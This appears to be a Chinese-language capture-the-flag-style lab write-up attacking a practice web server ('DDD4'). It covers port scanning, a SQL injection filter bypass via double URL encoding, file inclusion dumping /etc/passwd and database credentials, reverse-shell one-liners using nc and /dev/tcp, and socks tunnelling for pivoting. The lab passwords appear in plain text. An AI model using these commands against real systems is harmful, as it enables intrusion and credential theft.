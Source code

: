 ## DDD4

### 0x01 环境搭配

```
centos
root
!@#ASD123.

centos
moon
moonQWE123

10.10.10.10:8080
moonsec123

web服务器
www.ddd4.com
admin
admin8899
ssh登录和密码
moonsec
yanisy123
```

![image-20210210194815204](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210210194815204.png)

#### 0x02 信息收集

#### 主机发现

```
nmap -sn 192.168.0.1/24
```

发现端口

```
masscan -p 1-65535 192.168.0.122 --rate=1000
```

```
sudo masscan -p 1-65535 192.168.0.122 --rate=1000 端口
```

详细信息

```
nmap -sC -p 8888,3306,888,21,80 -A 192.168.0.122 -oA ddd4-port
```

```
gobuster dir -u http://www.ddd4.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 'php,html' -o dirlog --wildcard -l | grep -v "10280" | grep -v "49"
```

目标点403时目录，200时访问成功了。

```
whatweb http://www.ddd4.com
获取到的header信息
```

### 0x03 源码审计

SQL注入 alipay.php

![image-20210210234933321](https://i.loli.net/2021/02/10/sHaS372JP4pY5gI.png)

没有过滤，直接杀。

```
function checkSqlStr($string)
{
	$string = strtolower($string);
	return preg_match('/select|insert|update|delete|\'|\/\*|\*|\.\.\/|\.\/|union|into|load_file|outfile|_user/i', $string);
}
```

这个假过滤，可以用url编码进行绕过

```
!checkSqlStr($request['keyword'])? $request['keyword'] = $request['keyword'] : exit('非法字符');
$keyword = urldecode($request['keyword']);

```

二次编码的最终奥义在于，后端服务器会自带一次编码，然后他又调用，他就只有死

继续拓展利用这个权限。

```
数据库密码不能直接解密 
1.分析加密方式进行处理
2.利用sql注入替换表中数据
```

文件包含

![image-20210211004002072](https://i.loli.net/2021/02/11/8PovGW9eNVFwAp1.png)

文件包含，%00截断，游戏开始真正有趣了起来。

![image-20210211005813054](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210211005813054.png)

远程的数据库链接，就是直接rwctf的那道题的简化版，打他兄弟们，开始利用了。

![image-20210211010016016](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210211010016016.png)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
host123:x:1000:1000:host123,,,:/home/host123:/bin/bash
smmta:x:121:129:Mail Transfer Agent,,,:/var/lib/sendmail:/bin/false
smmsp:x:122:130:Mail Submission Program,,,:/var/lib/sendmail:/bin/false
www:x:1001:1001::/home/www:/sbin/nologin
mysql:x:1002:1002::/home/mysql:/sbin/nologin
guest-5bxieb:x:999:999:访客:/tmp/guest-5bxieb:/bin/bash
```

![image-20210211010232883](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210211010232883.png)

拿到了目录。

```
/www/wwwroot/www.ddd4.com/config/doc-config-cn.php
```

配置文件有了。

![image-20210211010316780](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210211010316780.png)

下一步就是登陆后台进行修改密码了，然后进行后台绕过，游戏ending。

```
define('DB_HOSTNAME','localhost');
define('DB_USER','www_ddd4_com');
define('DB_PASSWORD','x4ix6ZrM7b8nFYHn');
define('DB_DBNAME','www_ddd4_com');
define('TB_PREFIX','doc_');
```

#### 0x04 metasploit上线了

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.129 8888 >/tmp/f
bash -i >& /dev/tcp/192.168.174.128/9090 0>&1
```

替换反弹shell的乱码问题

```
bash -i >& /dev/tcp/192.168.0.129/9090 0>&1
先设置好python的shell
python -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z放到后台中
stty raw -echo
fg 
```

![image-20210213110042676](https://i.loli.net/2021/02/13/RmZdT3o4LnKWeVM.png)

```
10.10.10.144    www.ddd5.com
```

socks4 代理极其不稳定

```
https://nchc.dl.sourceforge.net/project/ssocks/ssocks-0.0.14.tar.gz
```

```
在 kali host123 都需要进行编译生成文件
下载完进行解压 -tar -zxvf ssocks-0.0.14.tar.gz
cd ssocks-0.0.14
./configuire && make
在 kali 执行
./rcsocks -l 2233 -p 1080 -vv
```

